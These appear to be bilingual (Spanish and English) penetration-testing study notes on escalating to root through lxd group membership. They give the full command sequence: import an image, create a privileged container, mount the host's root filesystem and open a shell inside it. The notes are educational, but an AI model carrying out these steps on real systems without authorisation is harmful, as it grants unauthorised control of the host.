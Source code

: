 
Comprobamos con `id` si estamos en el grupo lxc o lxd:
```shell-session

uid=1000(container-user) gid=1000(container-user) groups=1000(container-user),116(lxd)
```
From here on, there are now several ways in which we can exploit `LXC`/`LXD`. We can either create our own container and transfer it to the target system or use an existing container. Unfortunately, administrators often use templates that have little to no security. This attitude has the consequence that we already have tools that we can use against the system ourselves.

```shell-session
container-user@nix02:~$ cd ContainerImages
container-user@nix02:~$ ls

ubuntu-template.tar.xz
```


Si vemos un directorio o algo que contenga imágenes lo listamos y importamos la imagen:
````shell-session
lxc image import ubuntu-template.tar.xz --alias ubuntutemp
````

Podemos listar las imágenes:
```shell-session
lxc image list
```


After verifying that this image has been successfully imported, we can initiate the image and configure it by specifying the `security.privileged` flag and the root path for the container. This flag disables all isolation features that allow us to act on the host:

Creamos un contenedor "privesc" a partir de la imagen ubuntu temp, seteando la flag security.privileged a true, la cuál nos permite actuar sobre el host.
```shell-session
lxc init ubuntutemp privesc -c security.privileged=true
```

Añadimos al contenedor todo el disco raíz del host y lo montamos en /mnt/root de la imagen.

```shell

lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```


Ahora podemos iniciar el contenedor y acceder a el, en /mnt/root tenemos todo el sistema de directorios raiz del host. Podremos modificarlos y modificaremos lo del host.
1. Iniciamos el contenedor :
	`lxc start privesc`
2. Ejecutamos una tty: 
	`lxc exec privesc /bin/bash`
3. Listamos la montura /mnt/root y veremos que está todo el sistema de archivos del host.

